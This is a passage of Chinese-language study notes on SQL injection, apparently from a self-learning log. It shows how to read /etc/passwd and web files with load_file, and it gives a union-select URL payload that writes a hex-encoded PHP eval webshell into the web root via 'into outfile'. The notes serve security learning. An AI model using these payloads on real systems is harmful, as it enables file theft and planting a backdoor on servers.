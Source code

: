 PS：Linux下可以查看`/etc/passwd`
![url](004_第四周—数据库系统功能相关学习/1127869-20190824225746546-714590464-1567178504671.png)

发现有Nginx、Apache这些用户名，说明可能存在这些服务器，那么可以试试这些的web默认路径

> eg：`index.php?id=1 union select load_file('/usr/share/nginx/html/index.php'),2`

![php](004_第四周—数据库系统功能相关学习/1127869-20190824230241254-549292566-1567178504955.png)

so ==> 网站根目录出现了（有时候`/etc/passwd`中直接就可以看到）



### 3.4.写入一句话

url构造：`index.php?id=1 union select 0x3c3f706870206576616c28245f504f53545b627279616e5d293b203f3e,1 into outfile 'D:\\Program Files (x86)\\phpstudy_pro\\WWW\\xiaoma.php'`

![shellcode](004_第四周—数据库系统功能相关学习/1127869-20190825101501876-1788835070-1567178504920.png)

##### Linux
